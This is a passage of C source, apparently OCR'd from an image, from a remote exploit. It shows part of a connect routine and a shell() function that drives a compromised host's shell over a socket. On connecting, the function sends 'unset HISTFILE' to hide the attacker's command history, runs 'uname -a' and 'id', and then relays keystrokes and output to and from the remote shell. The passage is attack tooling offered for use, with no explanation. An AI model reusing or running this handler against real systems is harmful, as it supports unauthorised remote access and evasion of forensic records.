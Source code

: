             if(FD_ISSET(fd, &fdwrite)) {
                    if(fcntl(fd, F_SETFL, flags) < 0) {
                            close(fd);
                            return -1;
                    }
                    return 1;
            }
            else {
                    close(fd);
                    return -1;
            }
    }


    void shell(int sock)
    {
            fd_set  fd_read;
            char buff[1024], *cmd="unset HISTFILE; echo \"*** JE MOET JE MUIL HOUWE\";uname -a;id;\n";
            int n;

            FD_ZERO(&fd_read);
            FD_SET(sock, &fd_read);
            FD_SET(0, &fd_read);

            send(sock, cmd, strlen(cmd), 0);

            while(1) {
                    FD_SET(sock,&fd_read);
                    FD_SET(0,&fd_read);

                    if (select(FD_SETSIZE, &fd_read, NULL, NULL, NULL) < 0 ) break;

                    if (FD_ISSET(sock, &fd_read)) {

                            if((n = recv(sock, buff, sizeof(buff), 0)) < 0){
                                    fprintf(stderr, "EOF\n");
                                    exit(2);
                            }

                            if (write(1, buff, n) < 0) break;
                    }

                    if (FD_ISSET(0, &fd_read)) {

                            if((n = read(0, buff, sizeof(buff))) < 0){
                                    fprintf(stderr, "EOF\n");
                                    exit(2);
                            }

                            if (send(sock, buff, n, 0) < 0) break;
                    }

                    usleep(10);
            }

            fprintf(stderr, "Connection lost.\n\n");
            exit(0);
    }
